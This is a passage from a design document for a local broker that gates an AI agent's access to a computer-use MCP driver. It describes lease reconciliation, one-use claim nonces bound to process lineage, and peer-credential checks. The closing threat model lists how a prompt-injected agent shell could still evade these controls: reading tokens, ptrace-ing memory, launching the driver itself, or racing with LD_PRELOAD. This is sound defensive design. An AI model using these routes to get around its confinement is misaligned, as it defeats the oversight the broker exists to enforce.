1. Delete any stale files in `$XDG_RUNTIME_DIR/cu-broker/claims/`.
2. Drop malformed `lease` / `preempted` records.
3. If `lease` is expired (`ttl_expired` / `hard_cap_expired`) or an active agent `lease` has a bound `pid` whose `pidStartTime` is missing (`unverified_pid`) or no longer alive (`pid_dead`), bump `epoch`, transition to `idle`, clear `preempted`, and append `"reconciled"` to `audit.ndjson`.
4. If `preempted` exists:
   - Drop if `state !== "human"` (`orphan_preempted`), `hardExpiresAtMs <= now` (`preempted_hard_cap_expired`), `pid` or `pidStartTime` is missing (`preempted_unbound_on_restart`), or `pid_alive(pid, pidStartTime)` is false (`preempted_pid_dead`).
   - Dropping `preempted` alone preserves any live human `lease` and does **not** bump `epoch`; appends `"reconciled"` to `audit.ndjson`.
5. If a surviving `lease` or `preempted` carries `claimedPeer`, verify `pid_alive(claimedPeer.pid, claimedPeer.pidStartTime)`; if dead, clear `claimedPeer` and `mcpTokenHash` and audit `"reconciled"`.
6. Persist the reconciled `lease.json` atomically before binding sockets.

**Runtime reaping:** every `REAP_INTERVAL_SEC` (default `2 s`) and before state mutations, `_reap_locked()` enforces TTLs, hard caps, and `pid_alive` on both `lease` and `preempted`. When `preempted` is reaped at runtime (`pid_dead` or `hard_cap_expired`), the broker persists `lease.json`, revokes pending claims for that session, audits `"preempted_reaped"`, increments `cursor`, and emits `lease_changed` (`reason: "preempted_reaped"`, `reaped`).

### 9.7 Process-Bound Secret Delivery (`cua-driver-mcp` Only)

To eliminate `CU_BROKER_SESSION_SECRET` from `tmux` command lines, `/proc/<omp>/environ`, `omp`'s shell and non-CUA MCP children, and `omp 19.1.1`'s SQLite environment store, Slice 2 replaces env-var secret passing with a **one-use, process-lineage-bound claim handoff** that mints a dedicated, `SO_PEERCRED`-bound `mcpToken` exclusively for the redeeming `/usr/local/bin/cua-driver-mcp` process.

#### End-to-End Flow

1. **Acquire (control-plane):** `pi-dish` calls `POST /v1/lease/acquire` on `control.sock`. `sessionSecret` stays exclusively inside `pi-dish`'s private Node memory — it is **never** placed in `tmux` args, `omp`'s env, or any file.
2. **Mint one-use claim nonce (`control.sock`):** `pi-dish` calls `POST /v1/lease/claim-nonce` with `{ sessionId, sessionSecret, ttlSec?, bindTimeoutSec?: 30, pid?, pidStartTime?, requireRebind?: false }`.
   - `cu-broker` generates a 256-bit `claimNonce`, keeps only `sha256(claimNonce)` in RAM (never in `lease.json` or `audit.ndjson`), writes a `0600` file under `$XDG_RUNTIME_DIR/cu-broker/claims/claim-<id>.json` (`0700` dir), and returns `{ ok: true, claimId, claimFile, claimNonce, sessionId, bound, expectedPid, expectedPidStartTime, bindTimeoutSec, bindExpiresAt, ttlSec, expiresAt, generation, cursor }`.
   - **Two-phase claim TTL (required for `omp 19.1.1` lazy MCP spawn):**
     - While **unbound** (`bound: false`, pre-spawn before `POST /v1/lease/bind`), the claim **cannot be redeemed** and expires after `bindTimeoutSec` (default `30` s, clamped `5..120` s).
     - Once **bound** to a verified `(omp_pid, omp_start_time)`, `omp 19.1.1` serves cached MCP tool catalogs from `~/.omp/run/daemon/modules/mcp/cache.db` and spawns `/usr/local/bin/cua-driver-mcp` **lazily on the first `mcp__cua_*` tool call** (which may occur minutes after launch). Bound claims therefore remain redeemable up to `ttlSec` (default: lease hard cap, clamped `5..3600` s and always capped at `lease.hardExpiresAt`), and are immediately revoked and unlinked when redeemed, when the bound `omp` PID exits, when the lease is released/cancelled/expired, or when `cu-broker` restarts/shuts down.
   - For `respawnPane` (reusing an existing lease with a new `omp` process), pass `requireRebind: true` so the claim waits for the *next* `POST /v1/lease/bind` instead of accepting the old pane's PID.
3. **Launch `omp` with zero secrets in env:** `pi-dish` spawns `omp` via tmux with only non-secret identifiers:
   - `CU_BROKER_SESSION_ID=<brokerSessionId>`
   - `CU_BROKER_CLAIM_FILE=<claimFile>` *(recommended — not even the spent nonce enters `tmux` argv, `/proc/<omp>/environ`, or `omp`'s SQLite env store; `CU_BROKER_CLAIM_NONCE` is also supported as a fallback)*
   - `CU_BROKER_LABEL=<label>`
   - **Never** `CU_BROKER_SESSION_SECRET`.
4. **Bind verified `omp` birth (`control.sock`):** As soon as `pi-dish` observes `omp`'s `(pid, pidStartTime)` (immediately from tmux `paneProcessIdentity` and/or upon bridge registration with `ownerId`), it calls `POST /v1/lease/bind`. `cu-broker` verifies `/proc/<pid>/stat`, persists `(pid, pidStartTime)`, attaches it to the pending claim, and immediately wakes any waiting `POST /v1/lease/claim`.
5. **Redeem (`agent.sock`, inside `/usr/local/bin/cua-driver-mcp`):**
   - `cua-driver-mcp` (`#!/usr/bin/python3 -I`, isolated mode ignoring `PYTHONPATH`/`PYTHONUSERBASE`) sees `CU_BROKER_CLAIM_FILE` (or `CU_BROKER_CLAIM_NONCE`), sets `auto_acquire = False` (fail-closed), and defers consuming the one-use claim until the MCP client sends `notifications/initialized`, `tools/list`, or `tools/call` — this avoids burning the claim during `omp 19.1.1`'s throwaway `server/discover` + `initialize` capability probe (which closes the probe child after ~20 ms before spawning the persistent MCP child). Upon `notifications/initialized` (still during `omp` boot, before the first LLM turn), `cua-driver-mcp` reads `claimNonce` into memory, immediately unlinks `claimFile` (best-effort; `cu-broker` also unlinks it on redeem/expiry/cancel/shutdown), and calls `POST /v1/lease/claim` on `agent.sock` in a background thread (so `initialize` and `tools/list` never stall `omp`'s 5 s `mcp.startupTimeoutMs`).
   - `POST /v1/lease/claim` (`agent.sock` **only**; `control.sock` returns `403`):
     - Request: `{ sessionId, claimNonce, waitMs?: 5000 }` (`waitMs` clamped `0..15000`).
     - Broker verifies all of the following atomically before minting a token:
       1. Kernel `SO_PEERCRED` on the accepted Unix socket: `peer_uid === broker_uid` (`403 peer_uid_mismatch`).
       2. `claimNonce` hash matches an active, unexpired claim for `sessionId` (`403 claim_used` | `claim_expired` | `claim_invalid`).
       3. Target agent lease (active **or displaced**) still exists.
       4. Claim is bound to a verified `(expectedPid, expectedPidStartTime)`; if still `pending_bind`, waits on condition variable up to `waitMs` and returns `409 { ok: false, code: "binding_pending", retryAfterMs: 150 }` without consuming the nonce if still unbound.
       5. **Process lineage check:** peer is alive (not zombie), `expectedPid` is alive with matching `starttime === expectedPidStartTime` and matching UID, `expectedPid` is `peer_pid` or an ancestor in `/proc/*/stat`'s `ppid` chain within depth `6`, and child `starttime >= parent starttime` at every hop (`403 peer_lineage_mismatch`).
       6. **Peer entrypoint check:** `/proc/<peer_pid>/exe` + `/proc/<peer_pid>/cmdline` match `CU_BROKER_MCP_ENTRYPOINT` (default `/usr/local/bin/cua-driver-mcp`), allowing only direct binary execution or `python3` with safe flags (`-I`, `-u`, `-B`, `-E`, `-s`, `-S`, `-O`, `-OO`) and forbidding `-c`, `-m`, `-i`, `-` (`403 peer_binary_mismatch`). Failed lineage/binary checks do not immediately DoS-burn the nonce, but audit `"claim_denied"` and burn the nonce after `5` failed attempts.
     - On success:
       - Atomically burns the claim nonce, records its hash in a bounded recently-used cache, and unlinks `claimFile`.
       - Mints a fresh, MCP-scoped `mcpToken` (`256`-bit random), stores `mcpTokenHash` and `claimedPeer = { pid, pidStartTime, claimedAtMs }` on the lease (active or displaced; persisted in `lease.json` and preserved across `takeover` and `hand_back`).
       - Never reveals `pi-dish`'s control-plane `sessionSecret` to `cua-driver-mcp`.
       - Returns `200`:
         ```json
         {
           "ok": true,
           "generation": "gen-...",
           "cursor": 13,
           "state": "agent | waiting_for_human | human",
           "epoch": 4,
           "sessionId": "omp-spawn-...",
           "leaseId": "omp-spawn-...",
           "mcpToken": "<mcp-scoped token>",
           "sessionSecret": "<mcp-scoped token>",
           "token": "<mcp-scoped token>",
           "claimedPeer": { "pid": 12378, "pidStartTime": 9876601 },
           "lease": { ... },
           "preempted": null,
           "heartbeatIntervalSec": 20
         }
         ```
6. **Ongoing `SO_PEERCRED` enforcement on `agent.sock`:**
   - Once a lease has `claimedPeer` set, `POST /v1/mcp/call` on `agent.sock` verifies kernel `SO_PEERCRED` + `/proc/<peer_pid>/stat` matches `(claimedPeer.pid, claimedPeer.pidStartTime)`; any other process is rejected with `403 peer_mismatch` even if it presents a token.
   - `POST /v1/lease/heartbeat` on `agent.sock` accepts `mcpToken` only from `claimedPeer` (`403 peer_mismatch` otherwise; returns `409 lease_preempted` while displaced so `cua-driver-mcp` keeps `mcpToken` for hand-back).
   - `mcpToken` is **never** accepted by `bind`, `release`, `cancel-preempted`, `attention`, or `claim-nonce`.
   - Legacy Slice 1 callers (env `CU_BROKER_SESSION_SECRET` or standalone terminal `autoAcquire`) continue working unchanged when `claimedPeer` is not set.

#### Endpoint Summary Table (Slice 2 Additions)

| Method & Path | Socket | Auth | Key Codes |
|---|---|---|---|
| `POST /v1/lease/bind` | `control.sock` only | `sessionId` + control `sessionSecret` | `200`, `400 invalid_bind / invalid_owner_id / invalid_label / invalid_pid / pid_start_time_required / invalid_pid_start / pid_not_found / pid_mismatch`, `403 forbidden / pid_owner_mismatch`, `409 lease_not_found / not_agent_lease / epoch_mismatch` |
| `POST /v1/lease/cancel-preempted` | `control.sock` (`force` ok) or `agent.sock` (no `force`) | `sessionId` + control `sessionSecret` (or `force: true` on `control.sock`) | `200` (`cancelled: true` or idempotent `alreadyAbsent: true`), `400 missing_credentials`, `403 forbidden`, `409 lease_active` |
| `POST /v1/lease/claim-nonce` | `control.sock` only | `sessionId` + control `sessionSecret` | `200` (`claimId`, `claimFile`, `claimNonce`, `bound`, `expiresAt`), `400 invalid_pid / pid_start_time_required / invalid_pid_start / pid_not_found / pid_mismatch`, `403 forbidden / pid_owner_mismatch`, `409 lease_not_found / not_agent_lease` |
| `POST /v1/lease/claim` | `agent.sock` only | `sessionId` + `claimNonce` + `SO_PEERCRED` + lineage + MCP entrypoint | `200` (`mcpToken`, `claimedPeer`), `400 invalid_claim`, `403 peer_uid_mismatch / claim_invalid / claim_expired / claim_used / peer_lineage_mismatch / peer_binary_mismatch`, `409 binding_pending / lease_not_found` |
| `GET /v1/events` | `control.sock` or `agent.sock` | Optional `?generation=&cursor=` (or `after=`) / `Last-Event-ID: <gen>:<cursor>` | `200` SSE (`hello` strictly first, then `resync` or replayed events, then live), `400 invalid_cursor` |

#### Threat Model & Residual Risk (Honest Assessment)

**What this handoff defeats completely:**
- **Env / tmux / SQLite secret leakage:** Neither `sessionSecret` nor `mcpToken` (nor `claimNonce` when using `CU_BROKER_CLAIM_FILE`) ever appears in `tmux` argv/env, `/proc/<omp>/environ`, `omp`'s bash shell environment, sibling MCP children, or `omp 19.1.1`'s SQLite env store.
- **Cross-process and post-redemption replay:** Once `cua-driver-mcp` redeems and unlinks the claim (at boot on a cold MCP cache, or on the first `mcp__cua_*` tool call when `omp 19.1.1` serves the catalog from `~/.omp/run/daemon/modules/mcp/cache.db`), the claim is atomically burned and cannot be replayed. Unrelated processes or non-MCP scripts (`python3 -c ...`, `curl`, bash) are rejected by `SO_PEERCRED` + parent-chain process-birth verification + MCP entrypoint check (`python3 -I` blocks `PYTHONPATH` injection).
- **Control-plane escalation from MCP:** `cua-driver-mcp` never receives `pi-dish`'s control-plane `sessionSecret`; its `mcpToken` cannot bind, transfer, release, cancel, or mint new claims, and is pinned to `claimedPeer`'s `(pid, pidStartTime)` on `agent.sock`.
- **Pre-bind race theft & PID reuse:** Unbound claims expire in 30 s and cannot be redeemed before `control.sock` binds a verified `(pid, pidStartTime)`, and `/proc/<pid>/stat` field 22 + monotonic hop timestamps defeat PID reuse.

**What a prompt-injected agent shell COULD STILL DO in Slices 1–3 (same UID `jyarwood` + guest passwordless sudo):**
- Because `omp`, `omp`'s bash tool, `cua-driver-mcp`, `pi-dish`, `cu-broker`, and `cua-driver` all run as UID `1000` (`jyarwood`) with passwordless `sudo` inside `cu-sandbox`:
  1. An injected bash command can connect directly to `control.sock`, `backend.sock`, or `127.0.0.1:3211` (reading `~/.config/cua/token`), or invoke `cu-seat` / `sudo`.
  2. An injected bash command can inspect `cua-driver-mcp` or `pi-dish` heap memory (via `sudo` or `ptrace` if `kernel.yama.ptrace_scope = 0`) or kill `cua-driver-mcp` (DoS).
  3. On a warm `omp 19.1.1` MCP cache (lazy spawn), if an agent somehow became prompt-injected *before* its first `mcp__cua_*` tool call (e.g. via `web_search`), an injected bash child of `omp` could launch `/usr/local/bin/cua-driver-mcp` itself to claim the pending `mcpToken` (or race with `LD_PRELOAD` under same-UID). Even then, it still only receives an `mcpToken` gated by the same single-seat lease (cut off immediately on human Take Over) and never learns `pi-dish`'s control-plane `sessionSecret`.
- **Forward path to hard enforcement (Slice 4b UID split):** Running `omp` + its shell under an unprivileged `cu-agent` UID (no `sudo`, no access to `control.sock`, `backend.sock`, or `~/.config/cua/token`, with `kernel.yama.ptrace_scope = 1`, `claims/` mode `0710` group-accessible without listing, and `autoAcquire` restricted) turns this exact Slice 2 protocol into a kernel-enforced boundary with zero API changes: a sibling bash child of `omp` cannot see `mcpToken` in env/SQLite, cannot redeem a burned claim, cannot `ptrace` sibling `cua-driver-mcp` (`ptrace_scope=1`), and cannot call `/v1/mcp/call` (`claimedPeer` `SO_PEERCRED` check). Remaining same-UID risks even in Slice 4b are limited to killing `cua-driver-mcp` (DoS), racing an unredeemed lazy-spawn claim via the real `/usr/local/bin/cua-driver-mcp` binary before the first CUA call, or indirect prompt injection through normal broker-gated MCP calls.

